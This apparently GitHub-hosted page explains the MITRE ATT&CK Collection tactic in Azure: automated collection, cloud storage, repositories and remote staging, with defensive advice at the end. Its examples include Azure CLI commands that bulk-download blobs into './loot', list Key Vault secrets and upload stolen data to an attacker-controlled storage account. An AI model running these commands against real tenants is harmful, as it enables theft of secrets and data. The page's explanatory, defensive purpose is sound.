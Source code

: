 # Collection TA0009

## **Collection Techniques in Azure Environments**

In Microsoft Azure, adversaries use Collection techniques to **gather sensitive information** once inside the environment.\
This phase involves **harvesting data from storage accounts, databases, repositories**, and **staging it** for exfiltration.

Collection is often **automated** with scripts, Azure CLI, REST APIs, or by pivoting through storage and app services.

***

#### 📥 Automated Collection

\| MITRE ID | **T1119** |

**Description**:\
Adversaries automatically collect data from Azure services (e.g., Storage Accounts, Cosmos DB, SQL Databases) using scripts, CLI tools, API calls, or agentless collection mechanisms.

**Azure Example**:

```bash
bashCopyEditaz storage blob download-batch --account-name victimstorage --destination ./loot --source secrets
```

✅ **Result**: Mass download of blobs/files using Azure CLI or SDKs.

***

#### ☁️ Data from Cloud Storage

\| MITRE ID | **T1530** |

**Description**:\
Harvest data from Azure Blob Storage, Azure Files, Data Lakes, or Storage Shares — especially misconfigured public storage or exposed access keys.

**Azure Example**:

```bash
bashCopyEditaz storage blob list --account-name victimstorage --container-name secrets --output table
```

✅ **Result**: Exfiltration-ready files directly pulled from Azure Storage.

***

#### 🗄️ Data from Information Repositories

\| MITRE ID | **T1213** |

**Description**:\
Steal sensitive data from Azure-hosted databases (SQL DBs, Cosmos DB, Key Vault secrets) or information repositories (App Service settings, Logic Apps).

**Azure Example**:

```bash
bashCopyEditaz sql db list --resource-group victim-rg --server victim-sqlserver
az keyvault secret list --vault-name victimvault
```

✅ **Result**: Access to credentials, application secrets, or sensitive structured data.

***

#### 🗃️ Data Staged → Remote Data Staging

\| MITRE ID | **T1074.002** |

**Description**:\
Move collected data to an attacker-controlled cloud storage account, intermediate Azure resource (e.g., new Storage Account, VM), or externally hosted repository before full exfiltration.

**Azure Example**:

```bash
bashCopyEditaz storage blob upload-batch --destination https://attackerstorage.blob.core.windows.net/staging --source ./loot
```

✅ **Result**: Covertly stage exfiltrated data for later retrieval.

***

## 📊 **Collection Techniques in Azure (MITRE Mapped)**

| Technique/Subtechnique             | MITRE ID  | Azure Example                                            |
| ---------------------------------- | --------- | -------------------------------------------------------- |
| Automated Collection               | T1119     | Mass download of blobs/files using CLI or API            |
| Data from Cloud Storage            | T1530     | Enumerate and steal Azure Blob/Files data                |
| Data from Information Repositories | T1213     | Query Azure SQL, Cosmos DB, Key Vault for secrets        |
| Remote Data Staging                | T1074.002 | Upload loot to external Storage Account for exfiltration |

***

## 🎯 Final Summary

Defending against Collection in Azure focuses on:

* **Securing storage accounts, databases, and repositories with strict access control**
* **Monitoring download and data access anomalies (Defender for Cloud, Sentinel)**
* **Detecting suspicious data staging or movement between subscriptions/storage accounts**
* **Preventing mass data gathering through throttling, logging, and behavior analytics**
